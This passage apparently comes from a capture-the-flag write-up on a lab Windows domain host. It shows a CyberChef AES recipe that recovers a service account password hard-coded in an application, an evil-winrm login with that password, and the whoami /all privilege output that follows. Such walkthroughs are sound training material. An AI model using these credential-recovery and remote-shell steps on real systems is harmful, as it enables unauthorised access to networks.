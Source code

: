          @string = Encoding.UTF8.GetString(array2);
        }
      }
      return @string;
    }

Here is the <a href="https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'UTF8','string':'c4scadek3y654321'%7D,%7B'option':'UTF8','string':'1tdyjCbY1Ix49842'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)&input=QlFPNWw1S2o5TWRFclh4NlE2QUdPdz09">CyberChef recipe</a> to decode the password: `w3lc0meFr31nd`.

From there we can can connect with the `ArkSvc` account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm) and enumerate our
permissions.

    :::text
    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

    USER INFORMATION
    ----------------

    User Name      SID
    ============== ==============================================
    cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


    GROUP INFORMATION
    -----------------

    Group Name
    ===========================================
    Everyone
    BUILTIN\Users
    BUILTIN\Pre-Windows 2000 Compatible Access
    NT AUTHORITY\NETWORK
    NT AUTHORITY\Authenticated Users
    NT AUTHORITY\This Organization
    CASCADE\Data Share
    CASCADE\IT
    CASCADE\AD Recycle Bin
    CASCADE\Remote Management Users
    NT AUTHORITY\NTLM Authentication
    Mandatory Label\Medium Plus Mandatory Level


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
